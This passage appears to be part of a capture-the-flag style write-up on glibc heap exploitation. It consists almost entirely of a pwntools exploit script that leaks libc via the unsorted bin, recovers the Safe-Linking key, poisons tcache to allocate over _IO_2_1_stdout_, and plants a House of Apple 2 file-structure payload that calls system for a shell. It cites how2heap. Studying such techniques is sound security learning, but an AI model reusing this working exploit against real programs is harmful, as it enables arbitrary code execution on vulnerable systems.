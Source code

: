 ```python
# trigger free of top_chunk
create(1, 0xd48, 0xd48 * b"B")

# pad up top_chunk to leak next ptr
edit(0, cyclic(0x20))

# next_ptr = main_arena + 96
next_ptr = extract_address(show(0)[0x20:])
libc.address = next_ptr - 96 - libc.sym.main_arena

print("Leaked unsorted next ptr:", hex(next_ptr))
print("Location libc:", hex(libc.address))

# restore state
edit(0, 0x18 * b"A" + p64(0xd31))
# make sure unsorted is used up
create(2, 0xd18, 0xd18 * b"C")

# corrupt top_chunk size
edit(1, 0xd48 * b"B" + p64(0x2b1))
# trigger free to link a chunk into tcachebins
create(3, 0x2a8, 0x2a8 * b"D")

# shrink free space to 0x290
create(4, 0xa98, 0xa98 * b"E")
edit(4, 0xa98 * b"E" + p64(0x2B1))

# trigger another free to link a chunk into tcachebins
create(5, 0x2a8, 0x2a8 * b"F")

edit(4, cyclic(0xa98 + 0x8))
encrypted_ptr = extract_address(show(4)[0xa98 + 0x8:])
dec = decrypt_ptr(encrypted_ptr)
dec &= ~0xfff
dec += 0xd60

print("Leaked tcache next ptr:", hex(dec))
key = encrypted_ptr ^ dec
print("Safe-Linking encryption key:", hex(key))

file = io_file.IO_FILE_plus_struct()
payload = file.house_of_apple2_execmd_when_do_IO_operation(
        libc.sym["_IO_2_1_stdout_"],
        libc.sym["_IO_wfile_jumps"],
        libc.sym["system"])

# define target address
target = libc.sym["_IO_2_1_stdout_"]
# encrypt target address
target_enc = target ^ key

# overwrite next ptr
edit(4, 0xa98 * b"E" + p64(0x291) + p64(target_enc))
# first allocation
create(6, 0x288, 0x288 * b"G")
# second allocation at arbitrary pointer
create(7, 0x288, payload)

p.interactive()
```
## Resources
- \[0\] how2heap - https://github.com/shellphish/how2heap